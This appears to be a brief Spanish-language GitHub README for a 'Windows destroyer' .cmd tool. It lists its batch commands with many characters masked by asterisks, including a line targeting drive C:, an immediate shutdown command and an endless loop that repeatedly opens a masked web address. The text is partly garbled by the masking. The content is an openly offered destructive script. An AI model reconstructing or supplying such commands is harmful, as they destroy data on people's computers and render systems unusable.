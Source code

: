# the-windows-destructer-2.0

EL DESTRUCTOR DE WINDOWS ES UNA HERRAMIENTA QUE USA LOS SIGUIENTES COMANDOS Y USA LA EXTENCION .cmd

****** C:
(******* la pc)
shu*** -s -t 1
(la *****)
@echo off
:no
start ****://**.*********************************************
**** no
